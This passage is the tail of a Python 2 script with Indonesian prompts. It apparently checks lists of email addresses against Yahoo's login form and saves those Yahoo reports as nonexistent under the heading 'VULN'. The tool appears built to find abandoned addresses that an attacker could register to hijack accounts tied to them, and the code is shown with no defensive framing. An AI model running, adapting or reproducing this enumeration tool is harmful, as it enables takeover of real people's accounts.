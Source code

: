 		otw = yahoo.search(mail).group()
		if 'yahoo.com' in otw:
			br.open("https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com")
			br._factory.is_html = True
			br.select_form(nr=0)
			br["username"] = mail
			klik = br.submit().read()
			jok = re.compile(r'"messages.ERROR_INVALID_USERNAME">.*')
			try:
				pek = jok.search(klik).group()
			except:
				continue
			if '"messages.ERROR_INVALID_USERNAME">' in pek:
				print("\033[1;96m[✓] \033[1;92mVULN")
				print("\033[1;96m[➹] \033[1;97mEmail\033[1;91m: \033[1;92m"+mail)
				save = open('out/MailVuln.txt','a')
				save.write("Email: "+ mail + '\n\n')
				save.close()
				berhasil.append(mail)
	print 42*"\033[1;96m="
	print '\033[1;96m[\033[1;97m✓\033[1;96m] \033[1;92mSelesai \033[1;97m....'
	print"\033[1;96m[+] \033[1;92mTotal \033[1;91m: \033[1;97m"+str(len(berhasil))
	print"\033[1;96m[+] \033[1;92mFile Tersimpan \033[1;91m:\033[1;97m out/FileMailVuln.txt"
	raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]")
	menu()
	
       
		
if __name__ == '__main__':
	siapa()
